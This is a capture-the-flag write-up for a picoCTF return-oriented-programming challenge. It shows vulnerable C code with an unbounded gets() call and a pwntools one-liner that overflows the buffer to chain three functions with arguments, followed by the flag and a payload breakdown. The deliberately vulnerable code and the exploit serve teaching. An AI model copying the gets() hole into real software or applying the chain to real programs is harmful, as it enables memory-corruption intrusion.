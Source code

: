 ```c
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

As you can see, instead of just calling one function, we now have to call `win_function1`, `win_function2`, and `flag` in order using the buffer overflow from the `gets` call. Although the hint suggests that we can call the main function more than once, I am able to get the flag in one go:

```
alanc@pico-2018-shell-2:/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47$ python -c "from pwn import *; print 'a'*(16+12)+p32(0x080485cb)+p32(0x080485d8)+p32(0x0804862b)+p32(0xBAAAAAAD)+p32(0xDEADBAAD)" | ./rop
Enter your input> picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}
Segmentation fault
```

Here is the layout for the exploit:

* 'a'*(16+12)           <-- padding for our exploit
* p32(0x080485cb)       <-- `win_function1` address
* p32(0x080485d8)       <-- `win_function2` address
* p32(0x0804862b)       <-- `flag` address
* p32(0xBAAAAAAD)       <-- argrument for the `win_function2` function
* p32(0xDEADBAAD)       <-- argrument for the `flag` functionparam

If the explanation is not clear, take a look at my solution for [buffer overflow 2](#buffer-overflow-2).
